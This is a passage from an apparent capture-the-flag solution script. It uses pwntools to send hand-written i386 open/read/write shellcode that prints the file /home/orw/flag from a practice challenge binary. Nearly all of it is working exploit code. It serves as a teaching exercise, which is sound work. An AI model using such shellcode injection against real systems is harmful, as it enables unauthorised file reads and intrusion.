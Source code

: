 ```py
        '''.format(**locals()), *a, **kw)
    elif args.REMOTE:
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

p = start()

# ==================== EXPLOIT ====================

def exploit():

    # Path: /home/orw/flag
    # /hom -> 0x6d6f682f
    # e/or -> 0x726f2f65
    # w/fl -> 0x6c662f77
    # ag -> 0x6761

    sc = asm('''

        push 0x6761
        push 0x6c662f77
        push 0x726f2f65
        push 0x6d6f682f
        mov eax, 5
        mov ebx, esp
        xor ecx, ecx
        xor edx, edx
        int 0x80

        mov ebx, eax
        mov ecx, esp
        mov edx, 0x100
        mov eax, 3
        int 0x80

        mov ebx, 1
        mov eax, 4
        int 0x80

        ''', arch='i386')

    sa(b':', sc)

    interactive()

if __name__ == '__main__':
  exploit()
```

# Get flag
